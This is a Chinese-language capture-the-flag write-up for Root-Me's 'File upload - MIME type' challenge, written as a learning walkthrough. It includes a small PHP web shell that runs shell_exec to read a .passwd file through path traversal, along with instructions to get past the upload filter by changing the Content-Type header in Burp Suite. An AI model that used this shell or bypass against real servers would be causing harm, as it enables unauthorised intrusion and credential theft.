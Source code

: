 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[File upload - MIME type](https://www.root-me.org/en/Challenges/Web-Server/File-upload-MIME-type)] [[解题报告](http://exp-blog.com/2019/01/13/pid-2987/)]

------

这题和【[Web-Server : File upload - double extensions](http://exp-blog.com/2019/01/13/pid-2985/)】的渗透思路是一样的，区别在于绕过方式。

上传一个文件测试一下，发现这次无法再利用双重后缀绕过了，只能上传图片后缀的文件。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B15%5D%20%5B20P%5D%20File%20upload%20-%20MIME%20type/imgs/01.png)

题目提示是使用 MIME type 实现绕过。

那么构造 payloads 文件内容都是一样的，不过因为不能利用后缀绕过，所以文件名保持为 `exp.php` 即可：

```php
<?php
	// exp.php
	// 假如这个文件上传成功，则可以利用 web 打开这个文件进行解析时进行路径穿越
	$content = shell_exec('cat ../../../.passwd');
	echo "<pre>$content</pre>";
?>
```

使用 Burp Suite -> Repeater 进行上传，同时要修改 `Content-Type` 的值为 `image/png` 即可实现绕过（原值为 `application/octet-stream`）。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B15%5D%20%5B20P%5D%20File%20upload%20-%20MIME%20type/imgs/02.png)

上传成功后刷新 upload 分类页面，找到 `exp.php` 打开即可获得密码，完成挑战。


![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B15%5D%20%5B20P%5D%20File%20upload%20-%20MIME%20type/imgs/03.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
